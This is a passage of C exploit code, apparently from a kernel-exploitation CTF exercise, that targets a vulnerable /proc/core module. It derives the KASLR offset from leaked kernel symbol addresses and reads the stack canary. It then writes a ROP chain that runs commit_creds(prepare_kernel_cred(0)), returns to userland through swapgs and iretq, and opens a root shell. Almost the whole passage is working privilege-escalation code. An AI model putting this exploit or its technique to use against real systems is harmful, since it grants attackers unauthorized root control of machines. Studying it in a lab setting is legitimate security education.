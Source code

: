```c
        }
        if (!strcmp(func, "commit_creds"))
        {
            commit_creds = addr;
            success("commit_creds addr found.");
        }
    }

    // 无kaslr时： 0xffffffff8109cce0
    printf("The addr of prepare_kernel_cred is 0x%lx.\n", prepare_kernel_cred);
    // 无kaslr时： 0xffffffff8109c8e0
    printf("The addr of commit_creds is 0x%lx.\n", commit_creds);

    offset = prepare_kernel_cred - 0xffffffff8109cce0;
    printf("The offset of kaslr is 0x%lx.\n", offset);

    fd = open("/proc/core", 2);
    if (fd < 0)
    {
        error("Failed to open /proc/core.");
        exit(0);
    }

    set_off(fd, 64);
    core_read(fd, buf);
    canary = ((size_t *)buf)[0];
    info("The value of canary is 0x%lx.", canary);
    printf("canary: 0x%lx.\n", canary);

    for (i = 0; i < 10; i++)
    {
        rop_chain[i] = canary;
    }

    // commit_creds(prepare_kernel_cred(NULL));
    rop_chain[i++] = POP_RDI_RET + offset;
    rop_chain[i++] = 0;
    rop_chain[i++] = prepare_kernel_cred;
    rop_chain[i++] = POP_RCX_RET + offset;
    rop_chain[i++] = commit_creds;
    rop_chain[i++] = MOV_RDI_RAX_POP_RBP_JMP_RCX + offset;
    rop_chain[i++] = 0; // popo_rbp
    rop_chain[i++] = SWAPGS_POPFQ_RET + offset;
    rop_chain[i++] = 0; // pop_fq
    rop_chain[i++] = IRETQ_RET + offset;
    rop_chain[i++] = (size_t)get_root_shell;
    rop_chain[i++] = user_cs;
    rop_chain[i++] = user_rflags;
    rop_chain[i++] = user_sp;
    rop_chain[i++] = user_ss;
    
    
    write(fd, rop_chain, 0x800);

    core_copy_func(fd, (0xffffffffffff0000 | 0x100));
    return 0;
}
```
